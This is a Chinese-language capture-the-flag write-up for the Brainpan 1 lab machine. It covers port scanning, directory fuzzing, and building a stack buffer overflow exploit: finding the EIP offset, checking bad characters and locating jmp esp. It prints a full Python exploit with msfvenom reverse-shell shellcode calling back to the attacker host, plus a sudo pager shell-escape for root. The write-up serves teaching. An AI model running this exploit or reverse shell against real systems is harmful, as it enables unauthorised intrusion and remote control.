

brainpan:1 - CTF
===

>   镜像下载: [镜像](https://www.vulnhub.com/entry/brainpan-1,51/)

借 brainpan 这台靶机重温 PWN, 以及深入了解相关技术。

### nmap 扫描

#### 主机发现

常规 nmap 扫描, 扫到靶机:


#### 端口扫描

先探测端口, 再扫所有可用端口:


TCP 扫描 9999 端口返回了一段转义的欢迎数据, 并提示输入密码, 比较可疑。先看一下端口扫描结果:

>   Abyss 是一款**轻量级的 HTTP 服务器软件**, 其功能和 Apache, Nginx 是类似的, 不过更小, 资源占用更低, 适用于嵌入式系统或老旧硬件。

>   snet-sensor-mgmt 没有见过, 尝试一下访问: `192.168.170.141:10000`:
> 
>   
>
>   看起来是一套 web 服务。
>
>   尝试连接 9999 端口, 会显示刚刚 nmap 扫出的字符。
>
>   ```bash
>   sudo nc 192.168.170.141 9999
>   ```
>
>   

### 目录爆破

#### 模糊测试

既然端口 10000 是可访问的 web 服务, 那就可以先试试目录爆破, 上模糊测试:

```bash
wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404 http://192.168.170.141:10000/FUZZ
```

>   扫描过程中, 应该根据首次扫描的结果, 用--hc, --hl, --hw, --hh 来根据结果的属性屏蔽一些多余的项方便查看。
> |参数|作用|示例|
> |----|----|----|
> |--hc|隐藏特定状态码|--hc 404,500|
> |--sc|只显示特定状态码|--sc 200,301|	
> |--hl|隐藏特定行数（响应大小）|--hl 100|		
> |--hw|隐藏特定单词数（响应内容）|--hw "Not Found"|
> |--hs|隐藏特定字符串（正则匹配）|--hs "404 Error"|


扫描以外停止了, 先访问扫出的这个 bin 目录, 是一个可执行文件:


```bash
sudo wget http://192.168.170.141:10000/brainpan.exe
```

#### gobuster 目录爆破

然后换个工具继续扫, 结果差不多。

```bash
sudo gobuster dir -u http://192.168.170.141:10000/ --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```


### 文件分析

观察一下下载的 brainpan.exe 这个文件, 首先查看一下文件属性, 有没有捆绑行为:


binwalk 会逐字节扫描整个文件, 扫描主要由以下部分组成:

#### 文件签名扫描

首先, 每种文件类型都有对应的**独特文件头**, 例如:

-   ZIP 文件：`50 4B 03 04`
-   JPEG 图片：`FF D8 FF E0`
-   ELF 可执行文件：`7F 45 4C 46`
-   PE 文件（EXE）：`4D 5A`

>   假设 binwalk 读到一个文件头为 PE 的文件中含有 ZIP 文件的文件签名, 则说明该 PE 文件很可能附加了一个 ZIP 文件在末尾。

文件附加一般有 3 种情况:

-   尾部附加数据:
    -   EXE 文件末尾附加了 ZIP、图片或其他可执行文件。
    -   Binwalk 结果：检测到多个签名 (如 EXE + ZIP)。
-   资源段注入
    -   恶意代码被插入到 EXE 的资源段（.rsrc）或空闲空间。
    -   Binwalk 结果：在非标准偏移位置发现异常签名。
-   多阶段加载器
    -   EXE 文件包含加密的下一阶段 Payload。
    -   Binwalk 结果：高熵值区域提示加密数据，但无已知签名（需进一步分析）。
   
#### 熵值分析 (Entropy Analysis)

信息熵(Entropy)由克劳德·香农提出，用于量化数据的**不确定性**或**随机性**。**熵值越高，数据越接近随机分布，可能意味着加密、压缩或编码后的内容**。

>   因为**加密**会将明文变为不可读的密文, 通过混淆和扩散使得各个字节的出现概率趋于均等, 例如 `HelloWorld` 经过 AES 加密后为 `3A7F...D9`; **压缩**算法通过减少重复冗余的数据来降低文件体积, 例如从 `AAAAABBBBB` 到 `A[5]B[5]`。

熵值分析将文件分割为固定大小的块（如 256 字节），逐块计算熵值。压缩文件的算法

>   以 ZIP 压缩为例, 先用这种压缩算法减少重复出现的数据占用的空间, 然后用**变长编码**(哈弗曼编码)重新编码。

---

Binwalk 扫描显示正常后, 再用 `strings` 命令查看该文件涵盖的所有字符串: 


含有刻意字符串 "copied %d bytes to buffer", 根据提到的缓冲区, 很可能是有缓冲区溢出的问题。

接下来把这个 exe 文件拷贝到另一台 windows 环境下, 尝试运行, 然后在 kali 上用 nc 访问到这台 windows 机的 9999 端口 (和 brainpan 靶机一致): 


输入刚刚在 strings 中看见的字符串 `shitstorm` 显示 'ACCESS GRANTED', 输入其他字符串, 显示 ' ACCESS DENIED'。同时另一端有相似的回显, 到这里几乎可以确定是缓冲区溢出问题。

### 缓冲区溢出

#### 缓冲区溢出原理

任何处理用户输入的地方都有可能存在缓冲区溢出的漏洞, 尤其是缺少输入验证, 缺乏保护机制的地方。

缓冲区溢出是一种常见的内存安全漏洞，其核心在于程序未对输入数据的长度进行有效验证，导致数据超出预定缓冲区的边界，覆盖相邻内存区域。

而缓冲区溢出攻击要做的, 就是用精心构造的 payload 准确的覆盖到 EIP 这个关键寄存器上, 然后让指令定位到一个准备好的 shellcode 上来控制机器, 。(各个寄存器的作用在之前的[博客](https://r4x.top/2025/01/20/reverse-note1/)中有记录)

常用的确定偏移量的方法是使用 Metasploit 的生成工具:

```bash
# 生成长度为200的模式字符串
msf-pattern_create -l 200

# 动态调试(...)

# 假设输入字符串触发崩溃后，假设EIP值为0x41326641
msf-pattern_offset -q 41326641

# 动态调试(...)
# 输出偏移量为140
```

之后还需要绕过保护机制(如 DEP), 进行动态调试验证。

#### 使用 python 脚本初步探测

编写一个脚本来方便利用缓冲区溢出:

```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while True:
    try:
        print("\n[+] Send evil buffer %s bytes" % size)
        buffer = b'A' * size  # 使用字节流（Python 2/3 兼容）

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.170.134", 9999))
        s.send(buffer)
        s.close()

        size += 100
        time.sleep(3)

    except:
        print("\n[+] Failed to connect.")
        sys.exit()
```

>   需要注意的是, python2 支持在 send() 函数中直接发送字符串(实际上是自动编码为字节流, 是**隐式输入**), 而 python3 需要提前编码为字节流 (bytes), 必显式编码, 因此最好在这里提前做好编码, 或者用 `s.send(buffer.encode())`

在 kali 上运行:


查看靶机上拷贝的程序, 发现在复制了 600 个字节后, 程序停止执行了, 导致 700 字节发送失败, 因此其缓冲区最多不超过 600 字节。

用 `msf-pattern_create` 创建一个字符串来精确的判断具体缓冲区大小**:

```bash
msf-pattern_create -l 600
```


修改一下脚本:

```python
#!/usr/bin/python
import socket
import time
import sys

try:
    print("\n[+] Send evil buffer ")
    buffer = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9'  
    # 使用字节流（Python 2/3 兼容）

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.170.1", 9999))
    s.send(buffer)
    s.close()

    time.sleep(3)

except:
    print("\n[+] Failed to connect.")
    sys.exit()
```

#### 用 Immunity debugger 查看寄存器

启动 Immunity debugger, *这个软件的作用是充当 cpu 和程序的中介, 并且可以拦截并简单处理数据, 就和拦截和发送数据包时 BP 的作用差不多*:


整个界面和 IDA, OllyDBG 是比较接近的, 可以看见代码块, 寄存器, 内存和堆栈。

#### 确定 EIP 相对偏移量

执行 python 代码:


注意 EIP (指令寄存器) 指向的目标: `35724134` 。

```bash
msf-pattern_offset -l 600 -q 35724134
```


这里显示的就是**相对偏移量**, 到这一步已经确定了 EIP 的相对偏移量为 524 。而 `35724134` 填充的是 525, 526, 527, 528 这四个字节 (EIP 当然是 4 个字节)。

验证一下这个结果: 将 `buffer` 改为 `'A' * 524 + 'B' * 4 + 'C' * 72` 并编码, 然后执行:


bash 中输入 `ascii` 可以直接查看 ascii 码对照表, `42` 就对应 `B` 。


#### 坏字符识别

坏字符: 指由于编码等配置不同而不能正常显示的字符。

修改一下 payload, 探测一下有哪些坏字符:

```python
buffer = b'A' * 524 + b'B' * 4 + b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```

如下图所示, 说明应该除了 `\x00` 以外, 是没有坏字节的:


#### 定位 ESP 

理想情况下, 可以通过 `EIP → shellcode` 的方式直接控制机器, 但是通常无法直接执行栈代码或无法确定 Shellcode 地址, 此时需要通过 ESP 来完成**间接跳转**, 也就是 `EIP → ESP → shellcode`。

用 `msf-nasm_shell` 生成一条跳转到 ESP 的指令:

```bash
msf-nasm_shell 
jmp esp
```

返回如下, `FFE4` 是对应的指令码。


使用 mona 的指令显示程序模块:

>   注: mona 并不是软件的自带功能, 需要[去github下载](https://github.com/corelan/mona)后拷贝到 pycommands 下。

表中显示的是各个程序的防护机制, 简单来说, 项目为 'False' 的越多, 说明其存在的保护机制越少, 需要绕过的机制越少。例如 ASLR 为随机化程序内存布局。


接下来在这里查找含有 `jmp esp` 对应机器码的地方, 实际上汇编程序中这是一条使用非常频繁的指令, 查找:`!mona find -s "\xff\xe4" -m brainpan.exe`:


结果显示有一处使用 `jmp esp` 的地方。记录此处的地址: **`0x311712f3`**

#### 测试 shellcode

根据 **Kali** 的地址生成一份 shellcode:

>   参数说明:
>
>   -   -p windows/shell_reverse_tcp 要生成的 shell_code 类型
>   -   LHOST:  目标地址
>   -   LPORT:  目标端口
>   -   -b  :   坏字符
>   -   -e  :   免杀选项, `x86/shikata_ga_nai` 是一套常用的轻量级免杀。
>   -   -f  :   指定语言

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.170.135 LPORT=443 -b="\x00" -e x86/shikata_ga_nai -f c
```


---

根据这个结果再次修改 python 代码:

>   注意, 写地址时, 现代计算机使用的是小端序, 这里需要反写。

```python
#!/usr/bin/python
import socket
import time
import sys

# 设置目标
target_ip = "192.168.170.134"
target_port = 9999

# 新的 shellcode（payload部分）
shellcode = (
    b"\xbb\x4d\x6b\xf4\xa3\xdb\xde\xd9\x74\x24\xf4\x5f\x33\xc9"
    b"\xb1\x52\x31\x5f\x12\x83\xef\xfc\x03\x12\x65\x16\x56\x50"
    b"\x91\x54\x99\xa8\x62\x39\x13\x4d\x53\x79\x47\x06\xc4\x49"
    b"\x03\x4a\xe9\x22\x41\x7e\x7a\x46\x4e\x71\xcb\xed\xa8\xbc"
    b"\xcc\x5e\x88\xdf\x4e\x9d\xdd\x3f\x6e\x6e\x10\x3e\xb7\x93"
    b"\xd9\x12\x60\xdf\x4c\x82\x05\x95\x4c\x29\x55\x3b\xd5\xce"
    b"\x2e\x3a\xf4\x41\x24\x65\xd6\x60\xe9\x1d\x5f\x7a\xee\x18"
    b"\x29\xf1\xc4\xd7\xa8\xd3\x14\x17\x06\x1a\x99\xea\x56\x5b"
    b"\x1e\x15\x2d\x95\x5c\xa8\x36\x62\x1e\x76\xb2\x70\xb8\xfd"
    b"\x64\x5c\x38\xd1\xf3\x17\x36\x9e\x70\x7f\x5b\x21\x54\xf4"
    b"\x67\xaa\x5b\xda\xe1\xe8\x7f\xfe\xaa\xab\x1e\xa7\x16\x1d"
    b"\x1e\xb7\xf8\xc2\xba\xbc\x15\x16\xb7\x9f\x71\xdb\xfa\x1f"
    b"\x82\x73\x8c\x6c\xb0\xdc\x26\xfa\xf8\x95\xe0\xfd\xff\x8f"
    b"\x55\x91\x01\x30\xa6\xb8\xc5\x64\xf6\xd2\xec\x04\x9d\x22"
    b"\x10\xd1\x32\x72\xbe\x8a\xf2\x22\x7e\x7b\x9b\x28\x71\xa4"
    b"\xbb\x53\x5b\xcd\x56\xae\x0c\x32\x0e\x1a\x4b\xda\x4d\x5a"
    b"\x55\xa0\xdb\xbc\x3f\xc6\x8d\x17\xa8\x7f\x94\xe3\x49\x7f"
    b"\x02\x8e\x4a\x0b\xa1\x6f\x04\xfc\xcc\x63\xf1\x0c\x9b\xd9"
    b"\x54\x12\x31\x75\x3a\x81\xde\x85\x35\xba\x48\xd2\x12\x0c"
    b"\x81\xb6\x8e\x37\x3b\xa4\x52\xa1\x04\x6c\x89\x12\x8a\x6d"
    b"\x5c\x2e\xa8\x7d\x98\xaf\xf4\x29\x74\xe6\xa2\x87\x32\x50"
    b"\x05\x71\xed\x0f\xcf\x15\x68\x7c\xd0\x63\x75\xa9\xa6\x8b"
    b"\xc4\x04\xff\xb4\xe9\xc0\xf7\xcd\x17\x71\xf7\x04\x9c\x81"
    b"\xb2\x04\xb5\x09\x1b\xdd\x87\x57\x9c\x08\xcb\x61\x1f\xb8"
    b"\xb4\x95\x3f\xc9\xb1\xd2\x87\x22\xc8\x4b\x62\x44\x7f\x6b"
    b"\xa7"
)

try:
    print("\n[+] Sending evil buffer...")

    # 构建payload
    payload = (
        b"A" * 524 +            # 填充到返回地址
        b"\xf3\x12\x17\x31" +    # 覆盖返回地址 (jmp esp地址)
        b"\x90" * 16 +           # NOP滑板
        shellcode                # Shellcode
    )

    # 创建socket连接
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

    print("\n[+] Payload sent successfully!")
    time.sleep(3)

except Exception as e:
    print(f"\n[+] Failed to connect: {e}")
    sys.exit()
```

在 Kali 上用 `sudo nc -lvnp 443` 开启监听:


回显说明 shellcode 已经生效了。

接下来在靶机上试试, 参数尝试一下 `windows` 和 `linux/x86` 这两种:

```bash
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.170.135 LPORT=443 -b="\x00" -e x86/shikata_ga_nai -f c
```




### Linux 提权

简单查看一下, 确认是目标靶机无误。

还是照旧, 先用 `python -c "import pty;pty.spawn('/bin/bash')"` , 然后用 `sudo -l` 显示可用 root 身份使用的程序, 提示该程序如下:


这段提示 `manual` 可以显示某指令的手册, 试试 `sudo /home/anansi/bin/anansi_util manual /bin/bash`:


这种帮助文档中通常都设置了 `!` 来方便顺手执行一些小命令, 也就是可以在帮助界面通过这个方式执行任意命令:


### 总结

关键点在 PWN 缓冲区溢出上:

-   需要结合 fuzz 脚本和 debugger 调试。
-   偏移量确定：pattern_create / pattern_offset 精确找到 EIP 覆盖位置 (524字节)。
-   验证：发送特制 payload 验证控制 EIP。